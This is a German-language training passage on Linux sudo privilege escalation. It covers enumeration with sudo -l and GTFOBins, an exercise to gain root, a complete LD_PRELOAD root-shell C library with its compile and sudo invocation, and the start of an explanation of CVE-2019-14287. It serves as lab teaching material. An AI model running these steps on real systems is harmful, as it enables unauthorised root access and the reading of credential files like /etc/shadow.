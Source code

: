 > **_Hinweis:_**  Die sudoers Datei bearbeitet man am besten mit visudo, welches eine Syntaxprüfung auf die Datei ausführt. Wenn die Datei kaputt ist, kann es unter Umständen dazu führend, dass man keine root-Rechte mehr auf diesem System erlangen kann.

Welche Programme für den angemeldeten User in sudo konfiguriert sind erfährt man mit dem `sudo -l` Befehl.

Bei einigen Programmen gibt es die Möglichkeit, Dateien zu lesen oder eine shell zu spawnen - und wenn das Programm mit root-Rechten ausgeführt wurde, Dateien mit root Lesezugriff (bspw. /etc/shadow) zu lesen/schreiben oder eine root-shell zu spawnen.
Eine Sammlung dieser Programme und wie man diese Schwachstelle ausnutzt bietet [gtfobins](https://gtfobins.github.io/).

### Aufgabe
Schau doch mal mit `sudo -l`, welche Programme `john` mit für sudo konfiguriert sind.
Such nach diesen Programmen auf [gtfobins](https://gtfobins.github.io/) und spiele ein bisschen mit ihnen herum.
Schaffst du es es, root-Rechte zu erlangen?

### LD_PRELOAD
LD_PRELOAD erlaubt es Programmen, geteilte Bibliotheken (sog. shared objects) zu verwenden. Wenn die `env_keep` Option aktiviert ist, können wir eine geteilte Bibliothek erstellen und einem Programm welches wir mit sudo aufrufen mitgeben. Die Biblothek wird dann zuerst ausgeführt. Bspw. könnte so eine Bibliothek eine root-shell spawnen.

Dieser C-Code spawned eine root-shell:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Der Code lässt sich zu einem shared object kompilieren:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles -w
```

Und beim Aufruf eines Programms mit root-Rechten mitgeben.

```
sudo LD_PRELOAD=/home/john/shell.so find
```

### CVE-2019-14287
Sudo erlaubt es auch mit `sudo -u#<id> <command>` einen Befehl mit einem bestimmten User auszuführen. Dazu muss der User jedoch die Berechtigung haben.
Mit `sudo -u#0 whoami` würde whoami mit root Rechten aufgerufen (die ID des root Users ist 0), sofern der aufrufende User die Berechtigung hat, whoami als root aufzurufen.
Bis sudo in der Version < 1.8.28 existierte ein Bug, welcher in Kombination mit einer Misskonfiguration erlaubte ein Programm mit root-Rechten auszuführen, wobei dies explizit in der Konfiguration ausgeschlossen wurde.
Die Konfiguration sieht folgendermaßen aus und erlaubt das ausführen des Programmes (oder aller Programme) als jeder andere User als root:
